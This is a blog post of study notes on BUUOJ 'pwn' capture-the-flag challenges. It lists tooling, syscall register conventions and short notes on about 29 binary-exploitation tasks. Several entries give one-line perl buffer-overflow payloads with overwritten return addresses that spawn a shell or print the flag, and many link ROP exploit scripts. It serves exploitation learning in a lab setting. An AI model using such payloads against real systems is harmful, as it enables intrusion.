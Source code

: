 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Terminology

### [System call](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)

- x86:
  - system call via interrupt: `int 80`, `ebx, ecx, edx, esi, edi, ebp` with `eax` filled with system call number
- x86_64 with `rax` filled with system call number 
  - user call: `rdi, rsi, rdx, rcx, r8, r9`
  - system call: `rdi, rsi, rdx, r10, r8, r9`

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. [**RA**] rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. [**RA**] warmup_csaw_2016
   1. `system("cat flag.txt")` found
   2. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. [**RA**] pwn1_sctf_2016
   1. `'system("cat flag.txt")'` found
   2. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. [**RA**] ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**ROP**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Flaw: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1.  Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5: [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Flaw: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
20. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop_2.py) [HarekazeCTF2019]babyrop2
    1.  Leaked address of `printf()` ends with `"\x00"` and outputs nothing
    2.  Construct `"/bin/sh"` and ROP chain in .bss segment
21. [**ROP**]({{ site.url }}/assets/pwn2_sctf_2016.py) pwn2_sctf_2016
    1.  Flaw: only check if length<=0x20
22. [**ROP**]({{ site.url }}/assets/2018_rop.py) [铁人三项(第五赛区)] 2018_rop
23. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babyrop.py) [bjdctf_2020] bjdctf_2020_babyrop
24. [**ROP**]({{ site.url }}/assets/ez_pz_hackover_2016.py) ez_pz_hackover_2016
    1.  [Flaw](http://mrbelieve.tech/2020/01/18/ez_pz_hackover_2016-%E7%BB%A7%E7%BB%AD%E6%B7%B1%E5%85%A5%E5%AD%A6%E4%B9%A0edb/): `strcmp` terminates at `"\x00"`
25. [**ROP**]({{ site.url }}/assets/jarvisoj_level2_x64.py) jarvisoj_level2_x64
26. [**ROP**]({{ site.url }}/assets/ciscn_2019_ne_5.py) ciscn_2019_ne_5
    1.  `system("sh")` works...
    2.  `scanf()` ignores `'\x0b'`
27. others_shellcode: `"/bin/////sh"` works fine
28. [**ROP**]({{ site.url }}/assets/ciscn_2019_es_2.py) ciscn_2019_es_2
    1.  Only EBP and RA get overwhelmed: [frame faking](https://g.yuque.com/goldrick/pl0aqm/ccd1iu)
29. [BJDCTF 2nd]test: privilege escalation using [shell(`x86_64`)](https://zhuanlan.zhihu.com/p/138482510)